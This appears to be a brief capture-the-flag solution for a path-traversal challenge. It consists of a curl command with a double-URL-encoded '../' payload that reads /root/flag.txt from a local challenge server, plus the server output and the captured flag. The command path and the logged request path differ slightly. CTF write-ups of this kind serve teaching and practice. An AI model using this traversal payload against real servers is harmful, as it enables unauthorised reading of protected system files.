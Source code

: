 #Solution

1. Run this command to get the flag.
```
$ curl -v --path-as-is http://localhost:1337/anything/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/root/flag.txt
*   Trying 127.0.0.1:1337...
* Connected to localhost (127.0.0.1) port 1337 (#0)
> GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/root/flag.txt HTTP/1.1
> Host: localhost:1337
...
...
...
< Content-Type: text/plain
<
* Connection #0 to host localhost left intact
YCEP24{P4th_tR4v3rs4l_24sft4sgw}
```

Flag: YCEP24{P4th_tR4v3rs4l_24sft4sgw}